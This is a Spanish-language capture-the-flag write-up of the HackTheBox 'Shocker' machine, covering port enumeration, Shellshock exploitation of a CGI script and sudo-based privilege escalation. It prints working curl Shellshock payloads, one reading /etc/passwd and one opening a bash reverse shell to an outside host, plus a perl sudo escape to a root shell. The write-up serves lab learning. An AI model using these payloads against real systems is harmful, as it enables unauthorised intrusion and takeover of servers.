 ```yaml
---
layout: post
title:  "HackTheBox - Shocker"
author: erik
categories: [ HTB ]
image: https://user-images.githubusercontent.com/47476901/155027926-b71bb485-cab8-42b8-bff8-0a2bcf680799.png
beforetoc: ""
toc: false
tags: [ HTB, CVE, Linux ]
---
```


Maquina Linux nivel facil

# Table of Contents
1. [Enumeración](#enumeracion)
2. [Explotación](#explotacion)
3. [Escalación de Privilegios](#escalacion)

---

## Enumeración: <a name="enumeracion"></a>

**Puertos:**
-  80 HTTP
-  2222 SSH

### Nmap

```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```


### Content Web

![WebImage](https://user-images.githubusercontent.com/47476901/123010578-c787b380-d3b6-11eb-8466-9993c71af83a.png)


Haciendo Fuzzing con dirbuster nos encontramos un script en "/cgi-bin/user.sh"

![cgi-bin](https://user-images.githubusercontent.com/47476901/123010587-cbb3d100-d3b6-11eb-8473-e981b30a6ed3.png)

Nos encontramos una vulnerabilidad muy común, que consiste en aprovecharnos del script en /cgi-bin/, conocida como "**shellshock**".
Ya tiene más sentido el texto de la imagen de la web.

Encontré esta página que nos ayuda a explotarla.

- <a href="https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit" target="_blank">Exploit Here</a>

## Explotación: <a name="explotacion"></a>

Utilizamos un payload que nos funcionó:

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"
```

![TestRCE](https://user-images.githubusercontent.com/47476901/123010602-d2424880-d3b6-11eb-9489-3799f074775e.png)

Dado a que nos funciona el payload , aprovechamos para darnos una shell:

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/bash -i >& /dev/tcp/10.10.14.12/1234 0>&1" 
```

Y nos ponemos a la escucha:

![RevShell](https://user-images.githubusercontent.com/47476901/123010615-d79f9300-d3b6-11eb-997d-138764b6f72c.png)

## Escalación de privilegios: <a name="escalacion"></a>

En el directorio de shelly nos encontramos la flag de user:

![user txt](https://user-images.githubusercontent.com/47476901/123010625-dc644700-d3b6-11eb-9934-82663b902318.png)

Lo primero que se suele hacer es mirar que binarios podemos ejecutar como root.
Nos encontramos un comando que se puede ejecutar como root y no necesitamos contraseña para ello.

![sudoers](https://user-images.githubusercontent.com/47476901/123010635-dff7ce00-d3b6-11eb-9e0e-7f6c608616e5.png)

Miramos en <a href="https://gtfobins.github.io/" target="_blank">gtfobins</a> como podemos aprovecharnos de el para la escalación.

![gtfobins](https://user-images.githubusercontent.com/47476901/123010639-e38b5500-d3b6-11eb-9874-e34b9a2a6bd9.png)

Procedemos a explotarlo:

```bash
sudo perl -e 'exec "/bin/sh";'
```
![GettingRoot](https://user-images.githubusercontent.com/47476901/123010645-e8500900-d3b6-11eb-95a6-fab08f1b69c6.png)

Ya somos root!

![root txt](https://user-images.githubusercontent.com/47476901/123010650-ec7c2680-d3b6-11eb-8035-5f510a93a872.png)

#### Maquina Completada
